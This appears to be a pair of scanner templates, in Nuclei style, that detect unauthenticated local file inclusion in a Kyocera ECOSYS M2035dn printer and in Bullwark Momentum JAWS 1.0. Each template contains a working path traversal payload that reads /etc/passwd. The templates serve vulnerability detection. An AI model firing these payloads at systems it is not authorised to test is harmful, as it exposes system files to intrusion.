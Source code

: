 
# Kyocera Command Center RX ECOSYS M2035dn - Local File Inclusion

## Description

- Kyocera Command Center RX ECOSYS M2035dn is vulnerable to unauthenticated local file inclusion.
- severity - high
- tags - edb,printer,iot,kyocera,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/js/../../../../../../../../etc/passwd%00.jpg

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Bullwark Momentum Series JAWS 1.0 - Local File Inclusion

## Description

- Bullwark Momentum Series JAWS 1.0 is vulnerable to local file inclusion.
- severity - high
- tags - lfi,edb,bullwark

## Requests

### Step - 1

```
GET /../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Referer: {{Hostname}}

```
